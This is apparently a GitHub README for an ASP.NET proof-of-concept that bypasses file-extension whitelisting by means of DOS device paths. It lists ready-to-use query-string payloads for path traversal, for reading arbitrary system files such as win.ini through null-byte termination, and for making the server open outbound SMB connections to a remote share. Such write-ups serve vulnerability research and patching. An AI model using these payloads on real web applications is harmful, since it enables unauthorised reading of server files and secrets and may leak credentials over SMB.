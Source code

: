 ﻿# AspFileRead POC

A poc to bypass whitelisting of file extensions in asp.net.

By using DOS device paths https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#dos-device-paths, it is possible to read arbitrary files on the local file system.

## Example payloads

### Intended functionality

- `?file=data`


### Read secret in other folder same extension (md)
Read any file with `.md` file extension.

- `?file=file=..\secret\secret`	

![image](img/secret.png)

### Read any file on local system
Read any file and due to the DOS device path enable the null character termination and bypass the `.md` file extension limitation.

- `?file=\\?\c:\windows\win.ini%00`	

![image](img/local.png)

### Making outbound SMB connections 
It is also possible to trigger the web application to make outgoing smb-calls by using payloads such as:

- `?file=\\.\UNC\server\share\file`	# will read `file.md` on the server share
- `?file=\\?\UNC\server\share\secret.txt%00`	# will read `secret.txt` on the server share

![image](img/smb.png)